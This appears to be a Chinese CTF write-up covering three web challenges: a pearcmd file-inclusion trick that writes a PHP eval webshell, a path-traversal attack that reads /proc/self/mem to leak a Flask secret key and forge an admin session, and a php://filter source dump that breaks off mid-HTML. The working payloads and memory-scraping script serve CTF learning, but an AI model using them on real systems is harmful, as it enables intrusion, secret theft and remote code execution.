## [VNCTF]Signin

题目过滤了`/`，`convert`，`base`，`text`，`plain`，所以只能在当前路径下操作，且php伪协议几乎全部不可用，除了个data伪协议可以写成`data:,<?=exec(ls);` 然后发现当前目录下只有`index.php`文件



然后想到尝试用pearcmd文件包含漏洞，利用config-create来在当前目录下创建文件以绕过无法用/以访问其他目录的问题，于是构造payload为：

```text
/index.php?file=pearcmd.php&+config-create+/&/<?=eval($_POST[1])?>+f.php
```

得到



写入成功，include得到



发现被`<`被url编码了导致include没有识别到php标签而当成文本内容打印，所以改成用burpsuite抓包然后修改http包



于是可以执行任意命令了



拿到flag为**VNCTF{a7785325-3ea7-4b75-814f-76a90543e6cf}**



后面比赛结束看官方WP发现可以直接用短标签写马......



[VNCTF Official WriteUp（PDF 下载）](/files/VNCTF-Official-WriteUp.pdf)

## catcat-new

进首页翻一翻发现如果点进一个文章，网址会加上`?file=……`，自然想到可能存在文件包含漏洞，就先看环境，读取用户、程序路径、环境变量，分别是

```text
b'root:x:0:0:root:/root:/bin/ash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\nman:x:13:15:man:/usr/man:/sbin/nologin\npostmaster:x:14:12:postmaster:/var/mail:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\nat:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin\nsquid:x:31:31:Squid:/var/cache/squid:/sbin/nologin\nxfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\ncyrus:x:85:12::/usr/cyrus:/sbin/nologin\nvpopmail:x:89:89::/var/vpopmail:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nsmmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\nutmp:x:100:406:utmp:/home/utmp:/bin/false\n'
```

```text
b'python\x00app.py\x00'
```

```text
b'HOSTNAME=f0ad8fc620b8\x00PYTHON_PIP_VERSION=21.2.4\x00SHLVL=1\x00HOME=/root\x00OLDPWD=/\x00GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D\x00PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/3cb8888cc2869620f57d5d2da64da38f516078c7/public/get-pip.py\x00PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin\x00LANG=C.UTF-8\x00PYTHON_VERSION=3.7.12\x00PYTHON_SETUPTOOLS_VERSION=57.5.0\x00PWD=/app\x00PYTHON_GET_PIP_SHA256=c518250e91a70d7b20cceb15272209a4ded2a0c263ae5776f129e0d9b5674309\x00'
```

发现后台一直在跑一个`app.py`的程序，读取得到以下内容

```text
b'import os\nimport uuid\nfrom flask import Flask, request, session, render_template, Markup\nfrom cat import cat\n\nflag = ""\napp = Flask(\n __name__,\n static_url_path=\'/\', \n static_folder=\'static\' \n)\napp.config[\'SECRET_KEY\'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"\nif os.path.isfile("/flag"):\n flag = cat("/flag")\n os.remove("/flag")\n\n@app.route(\'/\', methods=[\'GET\'])\ndef index():\n detailtxt = os.listdir(\'./details/\')\n cats_list = []\n for i in detailtxt:\n cats_list.append(i[:i.index(\'.\')])\n \n return render_template("index.html", cats_list=cats_list, cat=cat)\n\n\n\n@app.route(\'/info\', methods=["GET", \'POST\'])\ndef info():\n filename = "./details/" + request.args.get(\'file\', "")\n start = request.args.get(\'start\', "0")\n end = request.args.get(\'end\', "0")\n name = request.args.get(\'file\', "")[:request.args.get(\'file\', "").index(\'.\')]\n \n return render_template("detail.html", catname=name, info=cat(filename, start, end))\n \n\n\n@app.route(\'/admin\', methods=["GET"])\ndef admin_can_list_root():\n if session.get(\'admin\') == 1:\n return flag\n else:\n session[\'admin\'] = 0\n return "NoNoNo"\n\n\n\nif __name__ == \'__main__\':\n app.run(host=\'0.0.0.0\', debug=False, port=5637)'
```

```python
s = """import os\\nimport uuid\\nfrom flask import Flask, request, session, render_template, Markup\\nfrom cat import cat\\n\\nflag = ""\\napp = Flask(\\n name,\\n static_url_path=\\'/\\', \\n static_folder=\\'static\\' \\n)\\napp.config[\\'SECRET_KEY\\'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"\\nif os.path.isfile("/flag"):\\n flag = cat("/flag")\\n os.remove("/flag")\\n\\n@app.route(\\'/\\', methods=[\\'GET\\'])\\ndef index():\\n detailtxt = os.listdir(\\'./details/\\')\\n cats_list = []\\n for i in detailtxt:\\n cats_list.append(i[:i.index(\\'.\\')])\\n \\n return render_template("index.html", cats_list=cats_list, cat=cat)\\n\\n\\n\\n@app.route(\\'/info\\', methods=["GET", \\'POST\\'])\\ndef info():\\n filename = "./details/" + request.args.get(\\'file\\', "")\\n start = request.args.get(\\'start\\', "0")\\n end = request.args.get(\\'end\\', "0")\\n name = request.args.get(\\'file\\', "")[:request.args.get(\\'file\\', "").index(\\'.\\')]\\n \\n return render_template("detail.html", catname=name, info=cat(filename, start, end))\\n \\n\\n\\n@app.route(\\'/admin\\', methods=["GET"])\\ndef admin_can_list_root():\\n if session.get(\\'admin\\') == 1:\\n return flag\\n else:\\n session[\\'admin\\'] = 0\\n return "NoNoNo"\\n\\n\\n\\nif name == \\'main\\':\\n app.run(host=\\'0.0.0.0\\', debug=False, port=5637)"""

print(s.replace("\\\\n","\\n"))
```

拿脚本整理一下就是

```python
import os
import uuid
from flask import Flask, request, session, render_template, Markup
from cat import cat

flag = ""
app = Flask(
 name,
 static_url_path='/', 
 static_folder='static' 
)
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"
if os.path.isfile("/flag"):
 flag = cat("/flag")
 os.remove("/flag")

@app.route('/', methods=['GET'])
def index():
 detailtxt = os.listdir('./details/')
 cats_list = []
 for i in detailtxt:
 cats_list.append(i[:i.index('.')])
 
 return render_template("index.html", cats_list=cats_list, cat=cat)

@app.route('/info', methods=["GET", 'POST'])
def info():
 filename = "./details/" + request.args.get('file', "")
 start = request.args.get('start', "0")
 end = request.args.get('end', "0")
 name = request.args.get('file', "")[:request.args.get('file', "").index('.')]
 
 return render_template("detail.html", catname=name, info=cat(filename, start, end))
 

@app.route('/admin', methods=["GET"])
def admin_can_list_root():
 if session.get('admin') == 1:
 return flag
 else:
 session['admin'] = 0
 return "NoNoNo"

if name == 'main':
 app.run(host='0.0.0.0', debug=False, port=5637)
```

分析一下可以知道想要`return flag`需要GET方式请求`/admin`的同时伪造`session.get('admin') == 1`

> ### flask session 伪造
>
> #### 一、session的作用
>
> 由于http协议是一个无状态的协议，也就是说同一个用户第一次请求和第二次请求是完全没有关系的，但是现在的网站基本上有登录使用的功能，这就要求必须实现有状态，而session机制实现的就是这个功能。
>
> 用户第一次请求后，将产生的状态信息保存在session中，这时可以把session当做一个容器，它保存了正在使用的所有用户的状态信息；这段状态信息分配了一个唯一的标识符用来标识用户的身份，将其保存在响应对象的cookie中；当第二次请求时，解析cookie中的标识符，拿到标识符后去session找到对应的用户的信息
>
> #### 二、flask session的储存方式
>
> 第一种方式：直接存在客户端的cookies中
>
> 第二种方式：存储在服务端，如：redis,memcached,mysql，file,mongodb等等，存在flask-session第三方库
>
> flask的session可以保存在客户端的cookie中，那么就会产生一定的安全问题。
>
> #### 三、flask的session格式
>
> flask的session格式一般是由base64加密的Session数据(经过了json、zlib压缩处理的字符串) . 时间戳 . 签名组成的。
>
> ```text
> eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.Y48ncA.H99Th2w4FzzphEX8qAeiSPuUF_0
> session数据                                     时间戳       签名
> ```
>
> 时间戳：用来告诉服务端数据最后一次更新的时间，超过31天的会话，将会过期，变为无效会话；
>
> 签名：是利用`Hmac`算法，将session数据和时间戳加上`secret_key`加密而成的，用来保证数据没有被修改。
>
> #### 四、flask session伪造
>
> 上面我们说到flask session是利用hmac算法将session数据，时间戳加上secert_key成的，那么我们要进行session伪造就要先得到secret_key，当我们得到secret_key我们就可以很轻松的进行session伪造。
>
> session伪造工具：[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)
>
> [对flask session伪造的学习 - GTL_JU - 博客园](https://www.cnblogs.com/GTL-JU/p/16960460.html)

而学到session的伪造需要用到`secret_key`，而`secret_key`的值可以通过内存数据获取

> - **`/etc/passwd`**
>
> 该文件储存了该Linux系统中所有用户的一些基本信息，只有root权限才可以修改。其具体格式为   用户名:口令:用户标识号:组标识号:注释性描述:主目录:登录Shell（以冒号作为分隔符）
>
> - **`/proc/self`**
>
> proc是一个伪文件系统，它提供了内核数据结构的接口。内核数据是在程序运行时存储在内部半导体存储器中数据。通过`/proc/PID`可以访问对应PID的进程内核数据，而`/proc/self`访问的是当前进程的内核数据。
>
> - **`/proc/self/cmdline`**
>
> 该文件包含的内容为当前进程执行的命令行参数。
>
> - **`/proc/self/mem`**
>
> `/proc/self/mem`是当前进程的内存内容，通过修改该文件相当于直接修改当前进程的内存数据。但是注意该文件不能直接读取，因为文件中存在着一些无法读取的未被映射区域。所以要结合`/proc/self/maps`中的偏移地址进行读取。通过参数start和end及偏移地址值读取内容。
>
> - **`/proc/self/maps`**
>
> `/proc/self/maps`包含的内容是当前进程的内存映射关系，可通过读取该文件来得到内存数据映射的地址。
>
> - **flask-session结构**
>
> flask_session是flask框架实现session功能的一个插件。其session结构分为三部分：序列化内容+时间+防篡改值，这三部分内容加密后以符号 “.”来进行分隔。flask_session默认session的储存是在用户Cookie中。但也可以指定存储在数据库，缓存中间件，服务器本地文件等等之中。
>
> - **`/proc/self/environ`**
>
> `/proc/self/environ`文件包含了当前进程的环境变量
>
> - **`/proc/self/fd`**
>
> 这是一个目录，该目录下的文件包含着当前进程打开的文件的内容和路径。这个fd比较重要，因为在Linux系统中，如果一个程序用 `open()` 打开了一个文件，但是最终没有关闭它，即使从外部（如：`os.remove(SECRET_FILE)`)删除这个文件之后，在/proc这个进程的fd目录下的pid文件描述符目录下还是会有这个文件的文件描述符，通过这个文件描述符我们即可以得到被删除的文件的内容。通过`/proc/self/fd/§pid§`来查看你当前进程所打开的文件内容。
>
> 当pid不知道时，我们可以通过bp爆破，pid是数字。
>
> - **`/proc/self/exe`**
>
> 获取当前进程的可执行文件的路径

想要伪造session，就需要得到`secret_key`，flask框架里session的本质是`cookie = base64(data + signature)`，而`signature = HMAC-SHA256(数据, secret_key)`

```python
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"
```

但不能直接从`/proc/self/mem`里找`secret_key`，就像一个 几 GB 的巨大二进制文件，不知道`secret_key`在哪，哪段内存可读，哪段会崩溃，所以需要结合`/proc/self/maps`去找哪些内存区域存在，哪些可以读写执行

例如看这题的maps里就有很多`7f9f31475000-7f9f314c7000 rw-p 00000000 00:00 0 \n`这样的内容

第一个字段`7f9f31475000-7f9f314c7000`就是起始地址-结束地址

第二个字段`rw-p`表示可读，可写，不可执行，私有映射

第三个字段`00000000`表示文件偏移量（offset），如果这段内存是从磁盘文件映射来的，它对应文件的起始偏移

第四个字段`00:00`表示文件所在设备

第五个字段0表示inode，inode 是文件系统中每个文件的唯一标识，如果这段内存映射自文件，这里会显示 inode 数字

如果是程序或库，后面可能还会有第六个字段表示路径，例如`/usr/bin/python3`

所以这里的脚本思路就是把maps的内容挖出来，然后提取每个有rw权限标志的内存起始结束地址，再去访问mem中对应范围的内容，查看内容中是否存在`*abcdefgh`这一固定标识，如果有那就是`secret_key`

```python
import requests
import re

url = "http://61.147.171.105:55827/"

# 由/proc/self/maps获取可读写的内存地址，再根据这些地址读取/proc/self/mem来获取secret key
s_key = ""
bypass = "../.."
# 请求file路由进行读取
map_list = requests.get(url + f"info?file={bypass}/proc/self/maps")
map_list = map_list.text.split("\\\\n")
for i in map_list:
    # 匹配指定格式的地址
    map_addr = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)
    if map_addr:
        start = int(map_addr.group(1), 16)
        end = int(map_addr.group(2), 16)
        #16是进制参数，int函数int(x, base)中x表示要转换的字符串，base表示要转换的字符串的进制，返回值是十进制整数
        print("Found rw addr:", start, "-", end)

        # 设置起始和结束位置并读取/proc/self/mem
        res = requests.get(f"{url}/info?file={bypass}/proc/self/mem&start={start}&end={end}")
        # 用到了之前特定的SECRET_KEY格式。如果发现*abcdefgh存在其中，说明成功泄露secretkey
        if "*abcdefgh" in res.text:
            # 正则匹配，前面app.py脚本中app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"是生成一个随机32位16进制字符串去掉横线再加上*abcdefgh
            secret_key = re.findall("[a-z0-9]{32}\\*abcdefgh", res.text)
            if secret_key:
                print("Secret Key:", secret_key[0])
                s_key = secret_key[0]
                break
```

```text
Found rw addr: 94634183282688 - 94634183286784
Found rw addr: 94634213244928 - 94634213261312
Found rw addr: 140321701769216 - 140321703084032
Found rw addr: 140321703284736 - 140321703620608
Found rw addr: 140321703636992 - 140321704177664
Secret Key: 0ed845cd8a274498a326298fc8019391*abcdefgh
```

抓到了`secret_key`，然后就可以用前面的session伪造工具：[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)来伪造session了

```text
PS C:\\CTF\\Flask-Session-Cookie-Manager> python flask_session_cookie_manager3.py encode -s "0ed845cd8a274498a326298fc8019391*abcdefgh" -t "{'admin':1}"
eyJhZG1pbiI6MX0.aZGGbg.sqtvkGbB5f94uOLXp-Ife-El9Dg
```



得到flag：`catctf{Catch_the_c4t_HaHa}`

## ics-05

进入界面一通乱点发现只有“设备维护中心”可以点进去，并且点进去后一通乱点发现点到“云平台设备维护中心”时url变为`…/index.php?page=index`，想到会是文件包含漏洞，先尝试任意文件读取，发现读`?page=../etc/passwd`没反应，再尝试php伪协议，`/index.php?page=php://filter/read=convert.base64-encode/resource=index.php`，先把`index.php`的源码读了，得到

```text
PD9waHAKZXJyb3JfcmVwb3J0aW5nKDApOwoKQHNlc3Npb25fc3RhcnQoKTsKcG9zaXhfc2V0dWlkKDEwMDApOwoKCj8+CjwhRE9DVFlQRSBIVE1MPgo8aHRtbD4KCjxoZWFkPgogICAgPG1ldGEgY2hhcnNldD0idXRmLTgiPgogICAgPG1ldGEgbmFtZT0icmVuZGVyZXIiIGNvbnRlbnQ9IndlYmtpdCI+CiAgICA8bWV0YSBodHRwLWVxdWl2PSJYLVVBLUNvbXBhdGlibGUiIGNvbnRlbnQ9IklFPWVkZ2UsY2hyb21lPTEiPgogICAgPG1ldGEgbmFtZT0idmlld3BvcnQiIGNvbnRlbnQ9IndpZHRoPWRldmljZS13aWR0aCwgaW5pdGlhbC1zY2FsZT0xLCBtYXhpbXVtLXNjYWxlPTEiPgogICAgPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiBocmVmPSJsYXl1aS9jc3MvbGF5dWkuY3NzIiBtZWRpYT0iYWxsIj4KICAgIDx0aXRsZT7orr7lpIfnu7TmiqTkuK3lv4M8L3RpdGxlPgogICAgPG1ldGEgY2hhcnNldD0idXRmLTgiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDx1bCBjbGFzcz0ibGF5dWktbmF2Ij4KICAgICAgICA8bGkgY2xhc3M9ImxheXVpLW5hdi1pdGVtIGxheXVpLXRoaXMiPjxhIGhyZWY9Ij9wYWdlPWluZGV4Ij7kupHlubPlj7Dorr7lpIfnu7TmiqTkuK3lv4M8L2E+PC9saT4KICAgIDwvdWw+CiAgICA8ZmllbGRzZXQgY2xhc3M9ImxheXVpLWVsZW0tZmllbGQgbGF5dWktZmllbGQtdGl0bGUiIHN0eWxlPSJtYXJnaW4tdG9wOiAzMHB4OyI+CiAgICAgICAgPGxlZ2VuZD7orr7lpIfliJfooag8L2xlZ2VuZD4KICAgIDwvZmllbGRzZXQ+CiAgICA8dGFibGUgY2xhc3M9ImxheXVpLWhpZGUiIGlkPSJ0ZXN0Ij48L3RhYmxlPgogICAgPHNjcmlwdCB0eXBlPSJ0ZXh0L2h0bWwiIGlkPSJzd2l0Y2hUcGwiPgogICAgICAgIDwhLS0g6L+Z6YeM55qEIGNoZWNrZWQg55qE54q25oCB5Y+q5piv5ryU56S6IC0tPgogICAgICAgIDxpbnB1dCB0eXBlPSJjaGVja2JveCIgbmFtZT0ic2V4IiB2YWx1ZT0ie3tkLmlkfX0iIGxheS1za2luPSJzd2l0Y2giIGxheS10ZXh0PSLlvIB85YWzIiBsYXktZmlsdGVyPSJjaGVja0RlbW8iIHt7IGQuaWQ9PTEgMDAwMyA/ICdjaGVja2VkJyA6ICcnIH19PgogICAgPC9zY3JpcHQ+CiAgICA8c2NyaXB0IHNyYz0ibGF5dWkvbGF5dWkuanMiIGNoYXJzZXQ9InV0Zi04Ij48L3NjcmlwdD4KICAgIDxzY3JpcHQ+CiAgICBsYXl1aS51c2UoJ3RhYmxlJywgZnVuY3Rpb24oKSB7CiAgICAgICAgdmFyIHRhYmxlID0gbGF5dWkudGFibGUsCiAgICAgICAgICAgIGZvcm0gPSBsYXl1aS5mb3JtOwoKICAgICAgICB0YWJsZS5yZW5kZXIoewogICAgICAgICAgICBlbGVtOiAnI3Rlc3QnLAogICAgICAgICAgICB1cmw6ICcvc29tcnRoaW5nLmpzb24nLAogICAgICAgICAgICBjZWxsTWluV2lkdGg6IDgwLAogICAgICAgICAgICBjb2xzOiBbCiAgICAgICAgICAgICAgICBbCiAgICAgICAgICAgICAgICAgICAgeyB0eXBlOiAnbnVtYmVycycgfSwKICAgICAgICAgICAgICAgICAgICAgeyB0eXBlOiAnY2hlY2tib3gnIH0sCiAgICAgICAgICAgICAgICAgICAgIHsgZmllbGQ6ICdpZCcsIHRpdGxlOiAnSUQnLCB3aWR0aDogMTAwLCB1bnJlc2l6ZTogdHJ1ZSwgc29ydDogdHJ1ZSB9LAogICAgICAgICAgICAgICAgICAgICB7IGZpZWxkOiAnbmFtZScsIHRpdGxlOiAn6K6+5aSH5ZCNJywgdGVtcGxldDogJyNuYW1lVHBsJyB9LAogICAgICAgICAgICAgICAgICAgICB7IGZpZWxkOiAnYXJlYScsIHRpdGxlOiAn5Yy65Z+fJyB9LAogICAgICAgICAgICAgICAgICAgICB7IGZpZWxkOiAnc3RhdHVzJywgdGl0bGU6ICfnu7TmiqTnirbmgIEnLCBtaW5XaWR0aDogMTIwLCBzb3J0OiB0cnVlIH0sCiAgICAgICAgICAgICAgICAgICAgIHsgZmllbGQ6ICdjaGVjaycsIHRpdGxlOiAn6K6+5aSH5byA5YWzJywgd2lkdGg6IDg1LCB0ZW1wbGV0OiAnI3N3aXRjaFRwbCcsIHVucmVzaXplOiB0cnVlIH0KICAgICAgICAgICAgICAgIF0KICAgICAgICAgICAgXSwKICAgICAgICAgICAgcGFnZTogdHJ1ZQogICAgICAgIH0pOwogICAgfSk7CiAgICA8L3NjcmlwdD4KICAgIDxzY3JpcHQ+CiAgICBsYXl1aS51c2UoJ2VsZW1lbnQnLCBmdW5jdGlvbigpIHsKICAgICAgICB2YXIgZWxlbWVudCA9IGxheXVpLmVsZW1lbnQ7IC8v5a+86Iiq55qEaG92ZXLmlYjmnpzjgIHkuoznuqfoj5zljZXnrYnlip/og73vvIzpnIDopoHkvp3otZZlbGVtZW505qih5Z2XCiAgICAgICAgLy/nm5HlkKzlr7zoiKrngrnlh7sKICAgICAgICBlbGVtZW50Lm9uKCduYXYoZGVtbyknLCBmdW5jdGlvbihlbGVtKSB7CiAgICAgICAgICAgIC8vY29uc29sZS5sb2coZWxlbSkKICAgICAgICAgICAgbGF5ZXIubXNnKGVsZW0udGV4dCgpKTsKICAgICAgICB9KTsKICAgIH0pOwogICAgPC9zY3JpcHQ+Cgo8P3BocAoKJHBhZ2UgPSAkX0dFVFtwYWdlXTsKCmlmIChpc3NldCgkcGFnZSkpIHsKCgoKaWYgKGN0eXBlX2FsbnVtKCRwYWdlKSkgewo/PgoKICAgIDxiciAvPjxiciAvPjxiciAvPjxiciAvPgogICAgPGRpdiBzdHlsZT0idGV4dC1hbGlnbjpjZW50ZXIiPgogICAgICAgIDxwIGNsYXNzPSJsZWFkIj48P3BocCBlY2hvICRwYWdlOyBkaWUoKTs/PjwvcD4KICAgIDxiciAvPjxiciAvPjxiciAvPjxiciAvPgoKPD9waHAKCn1lbHNlewoKPz4KICAgICAgICA8YnIgLz48YnIgLz48YnIgLz48YnIgLz4KICAgICAgICA8ZGl2IHN0eWxlPSJ0ZXh0LWFsaWduOmNlbnRlciI+CiAgICAgICAgICAgIDxwIGNsYXNzPSJsZWFkIj4KICAgICAgICAgICAgICAgIDw/cGhwCgogICAgICAgICAgICAgICAgaWYgKHN0cnBvcygkcGFnZSwgJ2lucHV0JykgPiAwKSB7CiAgICAgICAgICAgICAgICAgICAgZGllKCk7CiAgICAgICAgICAgICAgICB9CgogICAgICAgICAgICAgICAgaWYgKHN0cnBvcygkcGFnZSwgJ3RhOnRleHQnKSA+IDApIHsKICAgICAgICAgICAgICAgICAgICBkaWUoKTsKICAgICAgICAgICAgICAgIH0KCiAgICAgICAgICAgICAgICBpZiAoc3RycG9zKCRwYWdlLCAndGV4dCcpID4gMCkgewogICAgICAgICAgICAgICAgICAgIGRpZSgpOwogICAgICAgICAgICAgICAgfQoKICAgICAgICAgICAgICAgIGlmICgkcGFnZSA9PT0gJ2luZGV4LnBocCcpIHsKICAgICAgICAgICAgICAgICAgICBkaWUoJ09rJyk7CiAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAgICAgaW5jbHVkZSgkcGFnZSk7CiAgICAgICAgICAgICAgICAgICAgZGllKCk7CiAgICAgICAgICAgICAgICA/PgogICAgICAgIDwvcD4KICAgICAgICA8YnIgLz48YnIgLz48YnIgLz48YnIgLz4KCjw/cGhwCn19CgoKLy/mlrnkvr/nmoTlrp7njrDovpPlhaXovpPlh7rnmoTlip/og70s5q2j5Zyo5byA5Y+R5Lit55qE5Yqf6IO977yM5Y+q6IO95YaF6YOo5Lq65ZGY5rWL6K+VCgppZiAoJF9TRVJWRVJbJ0hUVFBfWF9GT1JXQVJERURfRk9SJ10gPT09ICcxMjcuMC4wLjEnKSB7CgogICAgZWNobyAiPGJyID5XZWxjb21lIE15IEFkbWluICEgPGJyID4iOwoKICAgICRwYXR0ZXJuID0gJF9HRVRbcGF0XTsKICAgICRyZXBsYWNlbWVudCA9ICRfR0VUW3JlcF07CiAgICAkc3ViamVjdCA9ICRfR0VUW3N1Yl07CgogICAgaWYgKGlzc2V0KCRwYXR0ZXJuKSAmJiBpc3NldCgkcmVwbGFjZW1lbnQpICYmIGlzc2V0KCRzdWJqZWN0KSkgewogICAgICAgIHByZWdfcmVwbGFjZSgkcGF0dGVybiwgJHJlcGxhY2VtZW50LCAkc3ViamVjdCk7CiAgICB9ZWxzZXsKICAgICAgICBkaWUoKTsKICAgIH0KCn0KCgoKCgo/PgoKPC9ib2R5PgoKPC9odG1sPgo=
```

解码得到

```php
<?php
error_reporting(0);

@session_start();
posix_setuid(1000);

?>
<!DOCTYPE HTML>
<html>

<head>
    <meta charset="utf-8">
    <meta name="renderer" content="webkit">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <link rel="stylesheet" href="layui/css/layui.css" media="all">
    <title>设备维护中心</title>
    <meta charset="utf-8">
</head>

<body>
    <ul class="layui-nav">
        <li class="layui-nav-item layui-this"><a href="?page=index">云平台设备维护中心</a></li>
    </ul>
    <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
        <legend>设备列表</legend>
    </fieldset>
    <table class="layui-hide" id="test"></table>
    <script type="text/html" id="switchTpl">
        <!-- 这里的 checked 的状态只是演示 -->
        <input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="开|关" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
    </script>
